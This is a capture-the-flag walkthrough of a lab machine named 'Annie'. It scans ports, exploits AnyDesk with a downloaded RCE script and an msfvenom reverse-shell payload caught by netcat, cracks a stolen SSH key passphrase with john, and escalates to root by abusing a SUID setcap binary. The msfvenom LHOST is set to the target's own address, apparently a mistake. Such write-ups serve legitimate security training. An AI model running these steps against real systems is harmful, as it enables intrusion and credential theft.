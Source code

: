 **Target: 10.10.90.114  Annie**

**Initial Access:**\
nmap -Pn 10.10.90.114 --min-rate=5000 -p- |grep -i open|awk -F '/' '{print $1}'|tr '\n' ',' \
open ports are: 22,7070

Let’s enumerate these ports further:\
nmap -Pn -p 22,7070 --min-rate=5000 -sC -sV -oN nmap.txt   10.10.90.114\
Output shows: port 22 is ssh, port 7070 shows:

![image](https://user-images.githubusercontent.com/93153300/197642654-bf2e7412-d22a-44b1-b855-8a77a5654e86.png)

It seems like a website, but when we navigate to the site it errors out.  However, we can view the certificate of the website.  The certificate name is interesting, AnyDesk Client.  Let’s check to see if AnyDesk has has any exploits, with command: searchsploit anydesk.  

![image](https://user-images.githubusercontent.com/93153300/197642638-4b913ad8-6ea3-49ee-9d21-492f958c74bd.png)

We got back 3 exploits.  Even though we don’t have the version for anydesk, we don’t have much else to enumerate.  One of the exploits is rce, we’ll start with that one.  Download it with searchsploit -m 49613.py.  

Open up the script in a text editor and change the ip address to  the target ip. \
Also, change the shellcode to your generated shellcode.\
Create shellcode with:  \
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.90.114  LPORT=443 -b "\x00\x25\x26" -e x86/shikata_ga_nai -f python -v shellcode\
Delete the current shellcode, and then paste the output shellcode we just generated with msfvenom. 

Open up netcat listener to catch the reverse shell: nc -lvnp 443\
The exploit is written in python2, so change to python 2 enivronment using venv: \
source venv/venv.python2.7/bin/activate\
Finally run the exploit: python 49613.py \
After a few seconds we get a shell on our netcat listener as annie.  \
We can read user.txt: cat /home/annie/user.txt
_________________________________________________
**Persistence:** \
Looking into annie’s home directory with ls -al, we find .ssh directory, cd to .ssh, and we find annie’s private ssh key.  We can use this key to ssh into annie.  \
Download id_rsa file to our pc.\
In order for the key to work we need to change the file permissions.  We will do this with command: chmod 600 id_rsa\
To ssh into the target use command: ssh -i id_rsa annie@10.10.90.114 \
Prompt asks us for a passphrase, so we will try to crack this passphrase with john.  Since we are dealing with ssh here, we will use ssh2john. 

First, convert the id_rsa private key we got from annie into a format that john can use to crack the passphrase.  Use commmand:   \
john id_rsa > john.txt\
Next, we will use john to crack the passphrase:\
john john.txt --wordlist=/usr/share/wordlists/rockyou.txt\
It worked, the passphrase is annie123

Now, we can use the private key id_rsa to ssh into annie.\
ssh -i id_rsa annie@10.10.90.114		→ when prompted, enter the passphrase\
We have shell as annie.
_________________________________________________________________________
**Privilege Escalation:**\
Check for suid with command: find / -perm /4000 2>/dev/null \
There’s an unusual suid found: \
-rwsr-xr-x 1 root root 10K Nov 16  2017 /sbin/setcap (Unknown SUID binary)

This gives us  the ability to set cap_setuid capability on other files.  We will use this to esacalate to root.\
Step 1: Copy python3 to annie’s home directory with command: cp /usr/bin/python3\
Step 2: Give python3 cap_setuid with command: setcap cap_setuid+ep /home/annie/python3\
Step 3: Check that it worked with command: getcap / -r 2>/dev/null\
This getcap command will show us all of our capabilities.  The ouput shows python3 listed with a cap_setuid, so it worked.\
Step 4:Run the command to escalate to root: ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'\
We are now root, can go to /root to get the flag.  

![image](https://user-images.githubusercontent.com/93153300/197647483-b5c0b084-6772-42da-b76b-fa4e8234951e.png)
